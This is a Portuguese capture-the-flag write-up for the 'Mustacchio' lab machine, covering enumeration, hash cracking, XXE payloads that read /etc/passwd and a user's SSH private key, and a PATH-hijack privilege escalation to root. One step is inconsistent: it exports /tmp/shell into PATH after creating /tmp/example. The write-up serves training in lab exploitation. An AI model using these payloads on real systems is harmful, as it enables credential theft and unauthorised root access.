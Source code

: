 # _**Mustacchio CTF**_
![](bigode.jpg)

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```
![](scan_nmap.jpg)

Parece que temos duas páginas web:
* porta 80: página normal
* porta 8765: página de login

Vamos realizar um scan com <mark>Gobuster</mark>
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/common.txt
> ```
![](scan_gobuster.jpg)

Investigando as páginas descobertas, encontramos um arquivo _.bak_  
Baixamos este arquivo e utilizamos ```strings``` para verificar seu conteúdo  

![](strings_result.jpg)

Parece que temos um nome de usuário e hash de senha  
Investigando a hash no site [crackstation](https://crackstation.net/), temos o seguinte resultado  

![](crackstation.jpg)

Vamos tentar estas credenciais na página de login  
Temos login com sucesso!  

![](login_success.jpg)

Investigando a página e tentando alguns códigos XML, não temos nenhum resultado  
Mas, verificando o código da página, temos uma pista!  

![](ssh_key.jpg)

Procurando outras informações, chegamos na seguinte parte  

![](bak.jpg)

Vamos tentar acessar o conteúdo de: _/auth/dontforget.bak_  
Usando ```strgins```, tentamos buscar por informações escondidas, mas não obtemos nada de relevante  
Executando o comando ```file```, temos que é um arquivo XML  
Vamos tentar inserir esse parágrafo no campo que descobrimos anteriormente  

![](xml_return.jpg)

E olhe só, temos retorno!  
Vamos alterar o conteúdo da cópia para podermos detectar uma vulnerabilidade ou buscar arquivos específicos  
[Neste site](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#detect-the-vulnerability) podemos encontar uma dessas maneiras
> ```
> <?xml version="1.0" encoding="UTF-8"?>
> <!DOCTYPE comment [
>   <!ENTITY xxe SYSTEM "file:///etc/passwd">
> ]>
> <comment>
>   <name>&xxe;</name>
>   <author>Barry Clad</author>
>   <com>Testando XXE para leitura de arquivos</com>
> </comment>
> ```

Temos retorno do arquivo do qual estavamos buscando!  

![](etc_passwd.jpg)

Informações relevantes foram descobertas  
Temos dois usuários:
* barry
* joe

E também sabemos que é necessário uma chave para realizar login SSH  
Geralmente, o arquivo _id_rsa_ está localizado em /home/[username]/.ssh/id_rsa  
Vamos alterar nosso _payload_ para conseguirmos obter esse arquivo  
> ```
> <?xml version="1.0" encoding="UTF-8"?>
> <!DOCTYPE comment [
>   <!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa">
> ]>
> <comment>
>   <name>&xxe;</name>
>   <author>Barry Clad</author>
>   <com>Testando XXE para leitura de arquivos</com>
> </comment>
> ```

Conseguimos obter a chave!  

![](key.jpg)

Agora, vamos quebrar ela com <mark>John the Ripper</mark>  
> ```bash
> ssh2john id_rsa > hash
> john -w=../wordlists/rockyou.txt hash
> ```
![](john_break.jpg)

Vamos realizar login via SSH como usuáro Barry agora  

![](barry_login.jpg)

## _**Escalando privilégios**_
Encontramos já de cara após poucos comandos um arquivo para investigarmos: _/home/joe/livelog_  

![](joe.jpg)

Investigando o arquivo com ```strings```, vemos o seguinte comando: _tail -f /var/log/nginx/access.log_  
Isso nos mostra que o binário está sendo executado sem um _path_ completo, isto é, não usando _/usr/bin/curl_ ou _/usr/bin/uname_  
Para podermos explorar isso, vamos realizar os seguintes passos:
> Crie um novo diretório na pasta /tmp/: <mark>mkdir /tmp/example</mark>
> Vá para essa pasta criada: <mark>cd /tmp/example</mark>
> Altere a pasta _/usr/bin_ para _/tmp/example_: <mark>export PATH=/tmp/shell:$PATH</mark>
> Crie um arquivo _tail_ e digite estes dois comandos: <mark>echo ‘#!/bin/bash’ > tail</mark> & <mark>echo ‘/bin/bash’ >> tail</mark>  
> Alterar as permissões para o arquivo _tail_: <mark>chmod +x tail</mark>  
> Volte para _live_log_ e execute o arquivo: <mark>./live_log</mark>

![](root.jpg)

Basta agora obter a última flag!
